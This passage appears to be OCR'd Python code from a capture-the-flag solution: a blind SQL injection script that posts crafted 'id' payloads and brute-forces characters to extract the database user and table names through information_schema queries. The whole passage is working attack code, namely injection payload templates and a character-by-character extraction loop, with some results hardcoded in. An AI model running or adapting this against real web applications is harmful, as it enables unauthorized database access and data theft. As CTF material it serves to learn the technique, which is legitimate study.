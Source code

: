    ```python
           res=mys.post(url,data=myd).content
           if true_state in res:
               lens=i
               break
           i+=1
           pass
       lens=14
       print("[+]length(user()): %d" %(lens))
   
       strs=''
       model="0' or (select user() regexp '%s$') or 'pcat'='"
       for i in range(lens):
           for c in cset:
               tmp=model %(c+strs)
               myd={'id':payload(tmp),}
               res=mys.post(url,data=myd).content
               if true_state in res:
                   strs=c+strs
                   print strs
                   break
           pass
       pass
       strs='web7@localhost'
       print("[+]user():%s" %(strs))
   
   
   
       lens=0
       i=1
       model="0' or length((select group_concat(table_name separator '@') from information_schema.tables where table_schema=database() limit 1))=%d or 'pcat'='"
       while True:
           tmp= model %(i)
           myd={'id':payload(tmp),}
           res=mys.post(url,data=myd).content
           if true_state in res:
               lens=i
               break
           i+=1
           pass
       lens=10
       print("[+]length(group_concat(table_name separator '@')): %d" %(lens))
   
       strs=''
       model="0' or (select (select group_concat(table_name separator '@') from information_schema.tables where table_schema=database() limit 1) regexp '%s$') or 'pcat'='"
       for i in range(lens):
           for c in cset:
               tmp=model %(c+strs)
               myd={'id':payload(tmp),}
               res=mys.post(url,data=myd).content
               if true_state in res:
                   strs=c+strs
                   print strs
                   break
           pass
       pass
       strs='fiag@users'
       print("[+]group_concat(table_name separator '@'):%s" %(strs))
   
   
       lens=0
       i=1
   ```